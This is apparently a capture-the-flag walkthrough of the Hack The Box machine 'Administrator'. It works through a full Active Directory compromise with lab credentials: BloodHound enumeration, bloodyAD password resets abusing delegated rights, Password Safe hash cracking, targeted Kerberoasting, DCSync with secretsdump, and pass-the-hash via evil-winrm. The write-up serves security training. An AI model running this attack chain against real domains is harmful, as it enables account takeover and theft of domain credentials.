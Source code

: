```yaml
---
description: 'Username: Olivia Password: ichliebedich'
---
```


# 📦 Administrator

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (10) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I quickly get a list of usernames:

<figure><img src="../../../.gitbook/assets/image (11) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

And the groups on the domain:

<figure><img src="../../../.gitbook/assets/image (12) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

the creds that were given to us have winrm rights so let's connect then we launch bloodhound python:

```
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.107.16
```

And start a bloodhound instance:

```
neo4j console
```

while launching our bloodhound collector we see a new host that we can add to hosts ->

<figure><img src="../../../.gitbook/assets/image (13) (1) (2).png" alt=""><figcaption></figcaption></figure>

and i launch bloodhound without root!!

I mark user olvia as owned and continue by looking at the node info of olivia and seeing she as First degree object control GenericAll over michael:

<figure><img src="../../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

and michael has ForceChangePassword over Benjamin:

<figure><img src="../../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>

Knowing this we can install bloodyAD and abuse those rights:

<figure><img src="../../../.gitbook/assets/image (16) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.129.107.16" set password "Michael" "Password1"
bloodyAD -u "Michael" -p "Password1" -d "Administrator.htb" --host "10.129.107.16" set password "Benjamin" "Password1"
```

I'll have to test this tool later on:

{% embed url="https://github.com/CravateRouge/autobloody" %}

Now we can confirm we have succesfully changed the password:

<figure><img src="../../../.gitbook/assets/image (17) (1) (2).png" alt=""><figcaption></figcaption></figure>

So i restart my enumeration process with these credentials and end up connecting to an FTP instance with the creds of Benjamin

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

After googling the extension, i found the tool pwsafe2john and used it to get a hash out of this file:

```
pwsafe2john Backup.psafe3 > backuphash.txt
john backuphash.txt
```

Which gave me password: `tekieromucho`

Then i started to look how to open the file:

{% embed url="https://installati.one/install-passwordsafe-kalilinux/#google_vignette" %}

Then i upload the file and see 3 users:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to see the passwords just like that:

<figure><img src="../../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I quickly see which one is the path to follow:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

On bloodhound we see that emily has GenericWrite on Ethan:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

I start iff looking at some attack vectors:

{% embed url="https://www.thehacker.recipes/assets/DACL%20abuse%20mindmap.CnS4bNaY.png" %}

I try GetUserSpns but it does not work, then i find a tool from shutdown that tries to Set an SPN and abuse it for us:

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py" %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

i had the following problem: \[!] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great) that happens when the time difference between your **attacking machine** and the **Domain Controller (DC)** is too large (usually more than 5 minutes). so i had to sync my time with DC:

```
sudo ntpdate -u 10.129.107.16
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.129.107.16
```

Then i put my hash in a file and crack it with john and end up with `limpbizkit`

<figure><img src="../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We are at the last step of this box i thing and we have DCsync rights on Administrator.htb so let's have fun:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync" %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (2) (1).png" alt=""><figcaption><p>secretsdump.py -outputfile 'dcsync.txt' administrator.htb/ethan:limpbizkit@10.129.107.16</p></figcaption></figure>

I can now do passthehash to get a session:

<figure><img src="../../../.gitbook/assets/image (9) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
evil-winrm -i 10.129.107.16 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
